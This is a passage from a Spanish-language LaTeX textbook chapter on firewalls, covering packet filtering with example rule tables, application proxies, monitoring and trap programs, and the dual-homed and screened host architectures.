el flujo de tramas entre dos redes (por ejemplo la interna, protegida con el
{\it firewall}, y el resto de Internet) de acuerdo a unas normas predefinidas;
aunque el filtro m\'as elemental puede ser un simple {\it router}, trabajando 
en el nivel de red del protocolo OSI, esta actividad puede realizarse 
adem\'as en un puente o en una m\'aquina individual. El filtrado tambi\'en se 
conoce como {\it screening}, y a los dispositivos que lo implementan se les
denomina {\bf chokes}; el {\it choke} puede ser la m\'aquina basti\'on o un
elemento diferente.\\
\\Un {\bf proxy} es un programa (trabajando en el nivel de aplicaci\'on de OSI)
que permite o niega el acceso a una aplicaci\'on determinada entre dos redes. 
Los clientes {\it proxy} se comunican s\'olo con los servidores {\it proxy}, 
que autorizan las peticiones y las env\'{\i}an a los servidores reales, o las
deniegan y las devuelven a quien las solicit\'o.\\
\\F\'{\i}sicamente, en casi todos los cortafuegos existen al menos un {\it 
choke} y una m\'aquina basti\'on, aunque tambi\'en se considera {\it firewall} 
a un simple {\it router} filtrando paquetes, es decir, actuando como {\it 
choke}; desde el punto de vista l\'ogico, en el cortafuegos suelen existir 
servidores {\it proxy} para las aplicaciones que han de atravesar el sistema, y
que se situan habitualmente en el {\it host} basti\'on. Tambi\'en se implementa
en el {\it choke} un mecanismo de filtrado de paquetes, y en alguno de los
dos elementos se suele situar otro mecanismo para poder monitorizar y detectar 
la actividad sospechosa.\\
\\En este cap\'{\i}tulo hablaremos de los tipos de cortafuegos m\'as 
habituales y de sus caracter\'{\i}sticas, as\'{\i} como de las posibles 
pol\'{\i}ticas de seguridad que pueden implementar; en el siguiente 
comentaremos aspectos de algunos de los cortafuegos m\'as utilizados hoy en 
d\'{\i}a, como {\it FireWall-1} o Cisco PIX Firewall. Los {\it firewalls} son 
cada vez m\'as
necesarios en nuestras redes, pero todos los expertos recomiendan que no se usen
{\bf en lugar de} otras herramientas, sino {\bf junto a} ellas; cualquier 
cortafuegos, desde el m\'as simple al m\'as avanzado, presenta dos 
grav\'{\i}simos problemas de seguridad: por un lado, centralizan todas las 
medidas en un \'unico sistema, de forma que si \'este se ve comprometido y 
el resto de nuestra red no est\'a lo suficientemente protegido el atacante 
consigue amenazar a toda la subred simplemente poniendo en jaque a una 
m\'aquina. El segundo problema, relacionado con \'este, es la falsa sensaci\'on
de seguridad que un cortafuegos proporciona: generalmente un administrador que
no disponga de un {\it firewall} va a preocuparse de la integridad de todas y
cada una de sus m\'aquinas, pero en el momento en que instala el cortafuegos
y lo configura asume que toda su red es segura, por lo que se suele descuidar
enormemente la seguridad de los equipos de la red interna. Esto, como acabamos
de comentar, es un grave error, ya que en el momento que un pirata acceda a
nuestro cortafuegos -- recordemos que es un sistema muy expuesto a ataques
externos -- autom\'aticamente va a tener la posibilidad de controlar toda 
nuestra red.\\
\\Adem\'as -- esto ya no es un problema de los {\it firewalls} sino
algo de sentido com\'un --, un cortafuegos evidentemente no protege contra 
ataques que no pasan por \'el: esto incluye todo tipo de ataques internos dentro
del per\'{\i}metro de seguridad, pero tambi\'en otros factores que {\it a
priori} no deber\'{\i}an suponer un problema. El t\'{\i}pico ejemplo de estos
\'ultimos son los usuarios que instalan sin permiso, sin conocimiento del 
administrador de la red, y muchas veces sin pensar en sus consecuencias, un
simple {\it modem} en sus PCs o estaciones de trabajo; esto, tan habitual en
muchas organizaciones, supone la violaci\'on y la ruptura total del 
per\'{\i}metro de seguridad, ya que posibilita accesos a la red no controlados
por el cortafuegos. Otro problema de sentido com\'un es la reconfiguraci\'on
de los sistemas al pasarlos de una zona a otra con diferente nivel de seguridad,
por ejemplo al mover un equipo que se encuentra en el \'area protegida a la
DMZ (veremos m\'as adelante lo que estas siglas significan); este acto -- que
en ocasiones no implica ni tan siquiera el movimiento f\'{\i}sico del equipo, 
sino simplemente conectarlo en una toma de red diferente -- puede ocasionar
graves problemas de seguridad en nuestra organizaci\'on, por lo que cada vez que
un cambio de este estilo se produzca no s\'olo es necesaria la reconfiguraci\'on
del sistema, sino la revisi\'on de todas las pol\'{\i}ticas de seguridad
aplicadas a esa m\'aquina (\cite{kn:mel97}).
\section{Caracter\'{\i}sticas de dise\~no}
Existen tres decisiones b\'asicas en el dise\~no o la configuraci\'on de un 
cortafuegos (\cite{kn:firefaq}); la primera de ellas, la m\'as importante, hace 
referencia a la pol\'{\i}tica de seguridad de la organizaci\'on propietaria del 
{\it firewall}: evidentemente, la configuraci\'on y el nivel de seguridad 
potencial ser\'a distinto en una empresa que utilice un cortafuegos para 
bloquear todo el tr\'afico externo hacia el dominio de su propiedad (excepto, 
quiz\'as, las consultas a su p\'agina
{\it web}) frente a otra donde s\'olo se intente evitar que los usuarios 
internos pierdan el tiempo en la red, bloqueando por ejemplo todos los servicios
de salida al exterior excepto el correo electr\'onico. Sobre esta decisi\'on
influyen, aparte de motivos de seguridad, motivos administrativos de cada
organismo.\\
\\La segunda decisi\'on de dise\~no a tener en cuenta es el nivel de 
monitorizaci\'on, redundancia y control deseado en la organizaci\'on; una vez
definida la pol\'{\i}tica a seguir, hay que definir c\'omo implementarla en el
cortafuegos indicando b\'asicamente qu\'e se va a permitir y qu\'e se va a 
denegar. Para esto existen dos aproximaciones generales: o bien se adopta una
postura restrictiva (denegamos todo lo que expl\'{\i}citamente no se permita) o
bien una permisiva (permitimos todo excepto lo expl\'{\i}citamente negado);
evidentemente es la primera la m\'as recomendable de cara a la seguridad, pero
no siempre es aplicable debido a factores no t\'ecnicos sino humanos (esto
es, los usuarios y sus protestas por no poder ejecutar tal o cual aplicaci\'on
a trav\'es del {\it firewall}).\\
\\Por \'ultimo, la tercera decisi\'on a la hora de instalar un sistema de 
cortafuegos es
meramente econ\'omica: en funci\'on del valor estimado de lo que deseemos 
proteger, debemos gastar m\'as o menos dinero, o no gastar nada. Un {\it 
firewall} puede no entra\~nar gastos extras para la organizaci\'on, o suponer
un desembolso de varios millones de pesetas: seguramente un departamento o 
laboratorio con pocos equipos en su interior puede utilizar un PC con Linux,
Solaris o FreeBSD a modo de cortafuegos, sin gastarse nada en \'el (excepto
unas horas de trabajo y unas tazas de caf\'e), pero esta aproximaci\'on 
evidentemente no funciona cuando el sistema a proteger es una red de tama\~no
considerable; en este caso se pueden utilizar sistemas 
propietarios, que suelen ser caros, o aprovechar los {\it routers} de salida
de la red, algo m\'as barato pero que requiere m\'as tiempo de configuraci\'on
que los cortafuegos sobre Unix en PC de los que hemos hablado antes. De 
cualquier forma, no es recomendable a la hora de evaluar el dinero a invertir
en el {\it firewall} fijarse s\'olo en el coste de su instalaci\'on y puesta
a punto, sino tambi\'en en el de su mantenimiento.\\
\\Estas decisiones, aunque concernientes al dise\~no, eran b\'asicamente 
pol\'{\i}ticas; la primera decisi\'on t\'ecnica a la que nos vamos a enfrentar
a la hora de instalar un cortafuegos es elemental: >d\'onde lo situamos para
que cumpla eficientemente su cometido? Evidentemente, si aprovechamos como 
cortafuegos un equipo ya existente en la red, por ejemplo un {\it router}, no
tenemos muchas posibilidades de elecci\'on: con toda seguridad hemos de dejarlo
donde ya est\'a; si por el contrario utilizamos una m\'aquina Unix con un
cortafuegos implementado en ella, tenemos varias posibilidades para situarla
con respecto a la red externa y a la interna. Sin importar donde situemos al
sistema hemos de recordar siempre que los equipos que queden fuera del 
cortafuegos, en la zona de riesgo, ser\'an igual de vulnerables que antes de
instalar el {\it firewall}; por eso es posible que si por obligaci\'on hemos 
tenido que instalar un cortafuegos en un punto que no protege completamente
nuestra red, pensemos en a\~nadir cortafuegos internos dentro de la misma,
aumentando as\'{\i} la seguridad de las partes m\'as importantes.\\
\\Una vez que hemos decidido d\'onde situar nuestro cortafuegos se debe elegir
qu\'e elemento o elementos f\'{\i}sicos utilizar como basti\'on; para tomar
esta decisi\'on existen dos principios b\'asicos (\cite{kn:bre95}): m\'{\i}nima
complejidad y m\'axima seguridad. Cuanto m\'as simple sea el {\it host} 
basti\'on, cuanto menos servicios ofrezca, m\'as f\'acil ser\'a su 
mantenimiento y por tanto mayor su seguridad; mantener esta m\'aquina 
especialmente asegurada es algo vital para que el cortafuegos funcione 
correctamente, ya que va a soportar por s\'{\i} sola todos los ataques que se 
efectuen contra nuestra red al ser elemento m\'as accesible de \'esta. Si la
seguridad de la m\'aquina basti\'on se ve comprometida, la amenaza se traslada
inmediantamente a todos los equipos dentro del per\'{\i}metro de seguridad.
Suele ser una buena opci\'on elegir como m\'aquina basti\'on un servidor 
corriendo alguna versi\'on de Unix (desde una {\sc sparc} con Solaris a un 
simple PC con Linux o FreeBSD), ya que aparte de la seguridad del sistema 
operativo tenemos la ventaja de que la mayor parte de aplicaciones de {\it
firewalling} han sido desarrolladas y comprobadas desde hace a\~nos sobre Unix 
(\cite{kn:rob94}).\\
\\Evidentemente, a la vez que elegimos un basti\'on para nuestro cortafuegos
hemos de decidir qu\'e elemento utilizar como {\it choke}; generalmente suele 
ser un {\it router} con capacidad para filtrar paquetes, aunque tambi\'en puede
utilizarse un sistema Unix para realizar esta funci\'on. En el punto \ref{arq}
se comentan diferentes arquitecturas de cortafuegos con los elementos utilizados
en cada una de ellas como {\it chokes} y como bastiones.\\
\\Ya hemos decidido qu\'e utilizar como {\it firewall} y d\'onde situarlo;
una vez hecho esto hemos de implementar sobre 
\'el los mecanismos necesarios para hacer cumplir nuestra pol\'{\i}tica de 
seguridad. En todo cortafuegos existen tres componentes b\'asicos para los que 
debemos implementar mecanismos (\cite{kn:open}): el filtrado de paquetes, el 
{\it proxy} de aplicaci\'on y la monitorizaci\'on y detecci\'on de actividad 
sospechosa. Vamos a hablar a continuaci\'on de cada uno de estos componentes.
\section{Componentes de un cortafuegos}
\subsection{Filtrado de paquetes}
Cualquier {\it router} {\sc ip} utiliza reglas de filtrado para
reducir la carga de la red; por ejemplo, se descartan paquetes cuyo {\sc ttl}
ha llegado a cero, paquetes con un control de errores err\'oneos, o simplemente
tramas de {\it broadcast}. Adem\'as de estas aplicaciones, 
el filtrado de paquetes se puede utilizar para implementar diferentes 
pol\'{\i}ticas de seguridad en una red; el objetivo principal de todas ellas
suele ser evitar el acceso no autorizado entre dos redes, pero manteniendo
intactos los accesos autorizados. Su funcionamiento es habitualmente muy 
simple: se analiza la cabecera de cada paquete, y en funci\'on de una serie de
reglas establecidas de antemano la trama es bloqueada o se le permite seguir su
camino; estas reglas suelen contemplar campos como el protocolo utilizado 
({\sc tcp}, {\sc udp}, {\sc icmp}\ldots), las direcciones fuente y destino, y
el puerto destino, lo cual ya nos dice que el {\it firewall} ha de ser capaz de 
trabajar en los niveles de red (para discriminar en funci\'on de las
direcciones origen y destino) y de transporte (para hacerlo en funci\'on de los
puertos usados). Adem\'as de la informaci\'on de cabecera de las tramas, 
algunas implementaciones de filtrado permiten especificar reglas basadas en
la interfaz del {\it router} por donde se ha de reenviar el paquete, y tambi\'en
en la interfaz por donde ha llegado hasta nosotros (\cite{kn:cha92}).\\ 
\\>C\'omo se especifican tales reglas? Generalmente se expresan como una simple
tabla de condiciones y acciones que se consulta en orden hasta encontrar una
regla que permita tomar una decisi\'on sobre el bloqueo o el reenv\'{\i}o de la
trama; adicionalmente, ciertas implementaciones permiten indicar si el bloqueo
de un paquete se notificar\'a a la m\'aquina origen mediante un mensaje {\sc
icmp} (\cite{kn:mog89}). Siempre hemos de tener presente el orden de an\'alisis
de las tablas para poder implementar la pol\'{\i}tica de seguridad de una forma
correcta; cuanto m\'as complejas sean las reglas y su orden de an\'alisis, m\'as
dif\'{\i}cil ser\'a para el administrador comprenderlas. Independientemente del
formato, la forma de generar las tablas depender\'a obviamente del sistema 
sobre el que trabajemos, por lo que es indispensable consultar su 
documentaci\'on; algunos ejemplos particulares -- pero aplicables a otros 
sistemas -- pueden encontrarse en \cite{kn:cor91} ({\it routers} NetBlazer),
\cite{kn:par98} ({\it routers} Cisco), \cite{kn:ran93a} ({\it TIS Internet 
Firewall Toolkit} sobre Unix) y tambi\'en en la obra indispensable al
hablar de cortafuegos: \cite{kn:bre95} ({\tt screend}, {\it NetBlazer}, {\it 
Livingston} y {\it Cisco}).\\
\\Por ejemplo, imaginemos una hipot\'etica tabla de reglas de filtrado de la 
siguiente forma:
\begin{quote}
\begin{verbatim}
  Origen           Destino           Tipo        Puerto        Accion
----------------------------------------------------------------------
158.43.0.0           *                *             *           Deny
    *            195.53.22.0          *             *           Deny
158.42.0.0           *                *             *           Allow
    *            193.22.34.0          *             *           Deny
\end{verbatim}
\end{quote}
Si al cortafuegos donde est\'a definida la pol\'{\i}tica anterior llegara un
paquete proveniente de una m\'aquina de la red 158.43.0.0 se bloquear\'{\i}a
su paso, sin importar el destino de la trama; de la misma forma, todo el 
tr\'afico hacia la red 195.53.22.0 tambi\'en se detendr\'{\i}a. Pero, >qu\'e
suceder\'{\i}a si llega un paquete de un sistema de la red 158.42.0.0 hacia
193.22.34.0? Una de las reglas nos indica que dejemos pasar todo el tr\'afico 
proveniente de 158.42.0.0, pero la siguiente nos dice que si el destino es 
193.22.34.0 lo bloqueemos sin importar el origen. En este caso depende de
nuestra implementaci\'on particular y el orden de an\'alisis que siga: si se
comprueban las reglas desde el principio, el paquete atravesar\'{\i}a el 
cortafuegos, ya que al analizar la tercera entrada se finalizar\'{\i}an las
comprobaciones; si operamos al rev\'es, el paquete se bloquear\'{\i}a porque
leemos antes la \'ultima regla. Como podemos ver, ni siquiera en nuestra tabla
-- muy simple -- las cosas son obvias, por lo que si extendemos el ejemplo a
un {\it firewall} real podemos hacernos una idea de hasta que punto hemos de 
ser cuidadosos con el orden de las entradas de nuestra tabla.\\
\\>Qu\'e suceder\'{\i}a si, con la tabla del ejemplo anterior, llega un paquete
que no cumple ninguna de nuestras reglas? El sentido com\'un nos dice que por
seguridad se deber\'{\i}a bloquear, pero esto no siempre sucede as\'{\i}; 
diferentes implementaciones ejecutan diferentes acciones en este caso. Algunas
deniegan el paso por defecto, otras aplican el contario de la \'ultima regla
especificada (es decir, si la \'ultima entrada era un {\tt Allow} se niega el
paso de la trama, y si era un {\tt Deny} se permite), otras dejan pasar este
tipo de tramas\ldots De cualquier forma, para evitar problemas cuando uno de
estos datagramas llega al cortafuegos, lo mejor es insertar siempre una regla
por defecto al final de nuestra lista -- recordemos una vez m\'as la cuesti\'on
del orden -- con la acci\'on que deseemos realizar por defecto; si por 
ejemplo deseamos bloquear el resto del tr\'afico que llega al {\it firewall} con
la tabla anterior, y suponiendo que las entradas se analizan en el orden 
habitual, podr\'{\i}amos a\~nadir a nuestra tabla la siguiente regla:
\begin{quote}
\begin{verbatim}
  Origen           Destino           Tipo        Puerto        Accion
----------------------------------------------------------------------
    *                *                *             *           Deny
\end{verbatim}
\end{quote}
La especificaci\'on incorrecta de estas reglas constituye uno de los problemas 
de seguridad habituales en los cortafuegos de filtrado de paquetes; no obstante,
el mayor problema es que un sistema de filtrado de paquetes es incapaz de
analizar (y por tanto verificar) datos situados por encima del nivel de red 
{\sc osi} (\cite{kn:ste98}). A esto se le a\~nade el hecho de que si utilizamos
un simple {\it router} como filtro, las capacidades de registro de informaci\'on
del mismo suelen ser bastante limitadas, por lo que en ocasiones es 
dif\'{\i}cil la detecci\'on de un ataque; se puede considerar un mecanismo de
prevenci\'on m\'as que de detecci\'on. Para intentar solucionar estas -- y 
otras vulnerabilidades -- es recomendable utilizar aplicaciones {\it software}
capaces de filtrar las conexiones a servicios; a dichas aplicaciones se les 
denomina {\it proxies} de aplicaci\'on, y las vamos a comentar en el punto
siguiente.
\subsection{Proxy de aplicaci\'on}
Adem\'as del filtrado de paquetes, es habitual que los cortafuegos utilicen
aplicaciones {\it software} para reenviar o bloquear conexiones a servicios
como {\it finger}, {\it telnet} o {\sc ftp}; a tales aplicaciones se les 
denomina servicios {\bf proxy}, mientras que a la m\'aquina donde se ejecutan
se le llama {\bf pasarela de aplicaci\'on}.\\
\\Los servicios {\it proxy} poseen una serie de ventajas de cara a incrementar
nuestra seguridad (\cite{kn:wack94}); en primer lugar, permiten \'unicamente la 
utilizaci\'on de
servicios para los que existe un {\it proxy}, por lo que si en nuestra 
organizaci\'on la pasarela de aplicaci\'on contiene \'unicamente {\it proxies}
para {\it telnet}, {\sc http} y {\sc ftp}, el resto de servicios no estar\'an
disponibles para nadie. Una segunda ventaja es que en la pasarela es posible
filtrar protocolos bas\'andose en algo m\'as que la cabecera de las tramas, lo
que hace posible por ejemplo tener habilitado un servicio como {\sc ftp} pero
con \'ordenes restringidas (podr\'{\i}amos bloquear todos los comandos {\tt
put} para que nadie pueda subir ficheros a un servidor). Adem\'as, los {\it 
application gateways} permiten un grado de ocultaci\'on de la estructura de
la red protegida (por ejemplo, la pasarela es el \'unico sistema cuyo nombre
est\'a disponible hacia el exterior), facilita la autenticaci\'on y la
auditor\'{\i}a del tr\'afico sospechoso antes de que alcance el {\it host} 
destino y, quiz\'as m\'as importante, simplifica enormemente las reglas de
filtrado implementadas en el {\it router} (que como hemos dicho antes pueden
convertirse en la fuente de muchos problemas de seguridad): s\'olo hemos de
permitir el tr\'afico hacia la pasarela, bloqueando el resto.\\
\\>Qu\'e servicios ofrecer en nuestro {\it gateway}, y c\'omo hacerlo? La 
configuraci\'on de la mayor\'{\i}a de servicios `habituales' est\'a muy bien 
explicada (como el resto del libro) en el cap\'{\i}tulo 8 de \cite{kn:bre95}.
Adem\'as, en numerosos art\'{\i}culos se comentan problemas espec\'{\i}ficos de 
algunos servicios; uno muy recomendable, centrado en el sistema de ventanas 
{\it X Window}, pero donde tambi\'en se habla de otros protocolos, puede ser 
\cite{kn:win93}.\\
\\El principal inconveniente que encontramos a la hora de instalar una pasarela
de aplicaci\'on es que cada servicio que deseemos ofrecer necesita su propio
{\it proxy}; adem\'as se trata de un elemento que frecuentemente es m\'as caro
que un simple filtro de paquetes, y su rendimiento es mucho menor (por ejemplo,
puede llegar a limitar el ancho de banda efectivo de la red, si el an\'alisis
de cada trama es costoso). En el caso de protocolos cliente--servidor (como
{\it telnet}) se a\~nade la desventaja de que necesitamos dos pasos para 
conectar hacia la zona segura o hacia el resto de la red; incluso algunas 
implementaciones necesitan clientes modificados para funcionar correctamente.\\
\\Una variante de las pasarelas de aplicaci\'on la constituyen las pasarelas de
nivel de circuito ({\it Circuit-level Gateways}, \cite{kn:che94}), sistemas
capaces de redirigir conexiones (reenviando tramas) pero que no pueden procesar
o filtrar paquetes en base al protocolo utilizado; se limitan simplemente a 
autenticar al usuario (a su conexi\'on) antes de establecer el circuito virtual 
entre sistemas. La principal ventaja de este tipo de pasarelas es que proveen 
de servicios a un amplio
rango de protocolos; no obstante, necesitan {\it software} especial que tenga
las llamadas al sistema cl\'asicas sustituidas por funciones de librer\'{\i}a
seguras, como {\sc socks} (\cite{kn:kob92}).
\subsection{Monitorizaci\'on de la actividad}
Monitorizar la actividad de nuestro cortafuegos es algo indispensable para 
la seguridad de todo el per\'{\i}metro protegido; la monitorizaci\'on nos
facilitar\'a informaci\'on sobre los intentos de ataque que estemos sufriendo
(origen, franjas horarias, tipos de acceso\ldots), as\'{\i} como la existencia
de tramas que aunque no supongan un ataque {\it a priori} s\'{\i} que son al
menos sospechosas (podemos leer \cite{kn:bell93} para hacernos una idea de que
tipo de tramas `extra\~nas' se pueden llegar a detectar).\\
\\>Qu\'e informaci\'on debemos registrar? Adem\'as de los registros est\'andar
(los que incluyen estad\'{\i}sticas de tipos de paquetes recibidos, frecuencias,
o direcciones fuente y destino) \cite{kn:open} recomienda auditar informaci\'on
de la conexi\'on (origen y destino, nombre de usuario -- recordemos el servicio
{\it ident} -- hora y duraci\'on), intentos de uso de protocolos denegados,
intentos de falsificaci\'on de direcci\'on por parte de m\'aquinas internas al 
per\'{\i}metro de seguridad (paquetes que llegan desde la red externa con la 
direcci\'on de un equipo interno) y tramas recibidas desde {\it routers} 
desconocidos. Evidentemente, todos esos registros han de ser leidos con
frecuencia, y el administrador de la red ha de tomar medidas si se detectan
actividades sospechosas; si la cantidad de {\it logs} generada es considerable
nos puede interesar el uso de herramientas que filtren dicha informaci\'on.\\
\\Un excelente mecanismo para incrementar mucho nuestra seguridad puede ser 
la sustituci\'on de servicios reales en el cortafuegos por programas trampa
(\cite{kn:bel92}). La idea es sencilla: se trata de peque\~nas aplicaciones que 
simulan un determinado servicio, de forma que un posible atacante piense que 
dicho servicio est\'a habilitado y prosiga su `ataque', pero que realmente nos
est\'an enviando toda la informaci\'on posible sobre el pirata. Este tipo de 
programas, una especie de troyano, suele tener una finalidad m\'ultiple:
aparte de detectar y notificar ataques, el atacante permanece entretenido 
intentando un ataque que cree factible, lo que por un lado nos beneficia 
directamente -- esa persona no intenta otro ataque quiz\'as m\'as peligroso -- 
y por otro nos permite entretener al pirata ante una posible traza de su
conexi\'on. Evidentemente, nos estamos arriesgando a que nuestro atacante 
descubra el mecanismo y lance ataques m\'as peligrosos, pero como el nivel de 
conocimientos de los atacantes de redes habituales en general no es muy elevado
(m\'as bien todo lo contrario), este mecanismo nos permite descubrir posibles
{\it exploits} utilizados por los piratas, observar a qu\'e tipo de atacantes 
nos enfrentamos, e incluso divertirnos con ellos. En la Universidad 
Polit\'ecnica de Valencia existen algunos sistemas con este tipo de trampas, y
realmente es curioso observar c\'omo algunos intrusos siguen intentando 
aprovechar {\it bugs} que fueron descubiertos -- y solucionados -- hace m\'as 
de cuatro a\~nos (ejemplos t\'{\i}picos aqu\'{\i} son {\sc phf} y algunos 
problemas de {\tt sendmail}). En \cite{kn:ches92}, un art\'{\i}culo cl\'asico
a la hora de hablar de seguridad (tambi\'en se comenta el caso en el 
cap\'{\i}tulo 10 de \cite{kn:che94}), se muestra c\'omo Bill Cheswick, un 
experto en seguridad de los
laboratorios AT\&T estadounidenses, es capaz de analizar detenidamente gracias
a estos programas las actividades de un pirata que golpea el {\it gateway} de 
la compa\~n\'{\i}a.
\section{Arquitecturas de cortafuegos}
\label{arq}
\subsection{Cortafuegos de filtrado de paquetes}
Un {\it firewall} sencillo puede consistir en un dispositivo capaz de filtrar
paquetes, un {\it choke}: se trata del modelo de cortafuegos m\'as antiguo 
(\cite{kn:sch97}), basado simplemente en aprovechar la capacidad de algunos 
{\it routers} -- denominados {\it screening routers} -- para hacer un enrutado 
selectivo, es decir, para bloquear o permitir el tr\'ansito de paquetes mediante
listas de control de acceso en funci\'on de ciertas caracter\'{\i}sticas de las 
tramas, de forma que el {\it router} actue como pasarela de toda la red. 
Generalmente estas 
caracter\'{\i}sticas para determinar el filtrado son las direcciones origen y 
destino, el protocolo, los puertos origen y destino (en el caso de {\sc tcp} y 
{\sc udp}), el tipo de mensaje (en el caso de {\sc icmp}) y los interfaces de 
entrada y salida de la trama en el {\it router}.\\ 
\\En un cortafuegos de filtrado de paquetes los accesos desde la red interna al 
exterior que no est\'an bloqueados son directos (no hay necesidad de utilizar 
{\it proxies}, como sucede en los cortafuegos basados en una m\'aquina con dos 
tarjetas de red), por lo que esta arquitectura es la m\'as simple de 
implementar (en muchos casos sobre {\it hardware} ya ubicado en la red) y la 
m\'as utilizada en organizaciones que no precisan grandes niveles de seguridad 
-- como las que vemos aqu\'{\i} --. No obstante, elegir un cortafuegos tan 
sencillo puede no ser recomendable 
en ciertas situaciones, o para organizaciones que requieren una mayor seguridad
para su subred, ya que los simples {\it chokes} presentan m\'as desventajas que
beneficios para la red protegida. El principal problema es que no disponen de 
un sistema de monitorizaci\'on sofisticado, por lo que muchas veces el 
administrador no puede determinar si el {\it router} est\'a siendo atacado o si 
su seguridad ha sido comprometida. Adem\'as las reglas de filtrado pueden llegar
a ser complejas de establecer, y por tanto es dif\'{\i}cil comprobar su 
correcci\'on: habitualmente s\'olo se comprueba a trav\'es de pruebas directas, 
con los problemas de seguridad que esto puede implicar.\\ 
\\Si a pesar de esto decidimos utilizar un {\it router} como filtro de 
paquetes, como en cualquier {\it firewall} es recomendable bloquear todos los 
servicios que no se utilicen desde 
el exterior (especialmente NIS, NFS, X-Window y TFTP), as\'{\i} como el acceso
desde m\'aquinas no confiables hacia nuestra subred; adem\'as, es tambi\'en 
importante para nuestra seguridad bloquear los paquetes con encaminamiento en 
origen activado.
\subsection{Dual-Homed Host}
El segundo modelo de cortafuegos est\'a formado por simples m\'aquinas Unix 
equipadas con dos o m\'as tarjetas de red y denominadas (\cite{kn:siy95}) 
anfitriones de dos bases ({\it dual--homed hosts}) o multibase ({\it 
multi--homed hosts}), y en las que una de las tarjetas se suele conectar a la 
red interna a proteger y la otra a la red externa a la organizaci\'on. En esta
configuraci\'on el {\it choke} y el basti\'on coinciden en el mismo equipo: la
m\'aquina Unix.\\
\\El sistema ha de ejecutar al menos un servidor {\it proxy} para cada
uno de los servicios que deseemos pasar a trav\'es del cortafuegos, y tambi\'en
es necesario que el {\it IP Forwarding} est\'e deshabilitado en el equipo: 
aunque una m\'aquina con dos tarjetas puede actuar como un {\it router}, para
aislar el tr\'afico entre la red interna y la externa es necesario que el {\it 
choke} no enrute paquetes entre ellas. As\'{\i}, los sistemas externos 
`ver\'an' al
{\it host} a trav\'es de una de las tarjetas y los internos a trav\'es de la
otra, pero entre las dos partes no puede existir ning\'un tipo de tr\'afico que
no pase por el cortafuegos: todo el intercambio de datos entre las
redes se ha de realizar bien a trav\'es de servidores {\it proxy} situados en 
el {\it host} basti\'on o bien permitiendo a los usuarios conectar directamente
al mismo. La segunda de estas aproximaciones es sin duda poco recomendable,
ya que un usuario que consiga aumentar su nivel de privilegios en el sistema 
puede romper toda la protecci\'on del cortafuegos, por ejemplo reactivando el 
{\it IP Forwarding}); adem\'as -- esto ya no relativo a la seguridad sino a la
funcionalidad del sistema -- suele ser inc\'omodo para los usuarios tener que
acceder a una m\'aquina que haga de puente entre ellos e Internet. De esta 
forma, la ubicaci\'on de {\it proxies} es lo m\'as recomendable, pero puede ser
problem\'atico el configurar cierto tipo de servicios o protocolos que no se
dise\~naron teniendo en cuenta la existencia de un {\it proxy} entre los dos
extremos de una conexi\'on.
\subsection{Screened Host}
Un paso m\'as en t\'erminos de seguridad de los cortafuegos es la arquitectura
{\it screened host} o {\it choke-gate}, que combina un {\it router} con un {\it
host} basti\'on, y donde el principal nivel de seguridad proviene del filtrado
de paquetes (es decir, el {\it router} es la primera y m\'as importante 
l\'{\i}nea de defensa). En la m\'aquina basti\'on, \'unico sistema accesible 
desde el 
exterior, se ejecutan los {\it proxies} de las aplicaciones, mientras que 
el {\it choke} se encarga de filtrar los paquetes que se
puedan considerar peligrosos para la seguridad de la red interna, permitiendo
\'unicamente la comunicaci\'on con un reducido n\'umero de servicios.\\
\\Pero, >d\'onde situar el sistema basti\'on, en la red interna o en el 
exterior del {\it router}? La mayor\'{\i}a de autores (\cite{kn:ran93}, 
\cite{kn:sem96}\ldots) recomiendan situar el {\it router} entre la red exterior
y el {\it host} basti\'on, pero otros (\cite{kn:wack94}) defienden justo lo
contrario: situar el basti\'on en la red exterior no provoca aparentemente una
degradaci\'on de la seguridad, y adem\'as ayuda al administrador a comprender
la necesidad de un elevado nivel de fiabilidad en esta m\'aquina, ya que est\'a
sujeta a ataques externos y no tiene por qu\'e ser un {\it host} fiable; de
cualquier forma, la `no degradaci\'on' de la seguridad mediante esta 
aproximaci\'on es m\'as que discutible, ya que habitualmente es m\'as f\'acil
de proteger un {\it router} que una m\'aquina con un operativo de prop\'osito
general, como Unix, que adem\'as por definici\'on ha de ofrecer ciertos 
servicios: no tenemos m\'as que fijarnos en el n\'umero de problemas
de seguridad que afectan a por ejemplo a IOS (el sistema operativo de los {\it
routers} Cisco), muy reducido frente a los que afectan a diferentes {\it 
flavours} de Unix. En todo caso, aparte de por estos matices, asumiremos la 
primera opci\'on por considerarla mayoritaria entre los expertos en seguridad 
inform\'atica; as\'{\i}, cuando una m\'aquina de la red interna desea 
comunicarse con el exterior existen dos posibilidades:
\begin{itemize}
\item El {\it choke} permite la salida de algunos servicios a todas o a parte
de las m\'aquinas internas a trav\'es de un simple filtrado de paquetes.
\item El {\it choke} prohibe todo el tr\'afico entre m\'aquinas de la red 
interna y el exterior, permitiendo s\'olo la salida de ciertos servicios que
provienen de la m\'aquina basti\'on y que han sido autorizados por la 
pol\'{\i}tica de seguridad de la organizaci\'on. As\'{\i}, estamos obligando a 
los usuarios a que las conexiones con el exterior se realicen a trav\'es de los 
servidores {\it proxy} situados en el basti\'on.
\end{itemize}
La primera aproximaci\'on entra\~na un mayor nivel de complejidad a la hora de
configurar las listas de control de acceso del {\it router}, mientras que si
elegimos la segunda la dificultad est\'a en configurar los servidores {\it 
proxy} (recordemos que no todas las aplicaciones soportan bien estos 
mecanismos) en el {\it host} basti\'on. Desde el punto de vista de la seguridad
es m\'as recomendable la segunda opci\'on, ya que la probabilidad de dejar
escapar tr\'afico no deseado es menor. Por supuesto, en funci\'on de la 
pol\'{\i}tica de seguridad que definamos en nuestro entorno, se pueden combinar
ambas aproximaciones, por ejemplo permitiendo el tr\'afico entre las m\'aquinas
internas y el exterior de ciertos protocolos dif\'{\i}ciles de encaminar a 
trav\'es de un {\it proxy} o sencillamente que no entra\~nen mucho riesgo para
nuestra seguridad (t\'{\i}picamente, {\sc ntp}, {\sc dns}\ldots), y obligando 
para el resto de servicios a utilizar el {\it host} basti\'on.\\
\\La arquitectura {\it screened host} puede parecer a primera vista m\'as
peligrosa que la basada en una simple m\'aquina con varias interfaces de red;
en primer lugar, tenemos no uno sino dos sistemas accesibles desde el exterior,
por lo que ambos han de ser configurados con las m\'aximas medidas de 
seguridad. Adem\'as, la mayor complejidad de dise\~no hace m\'as f\'acil la
presencia de errores que puedan desembocar en una violaci\'on de la 
pol\'{\i}tica implantada, mientras que con un {\it host} con dos tarjetas nos
aseguramos de que \'unicamente aquellos servicios con un {\it proxy} configurado
podr\'an generar tr\'afico entre la red externa y la interna (a no ser que
por error activemos el {\it IP Forwarding}). Sin embargo, aunque estos problemas
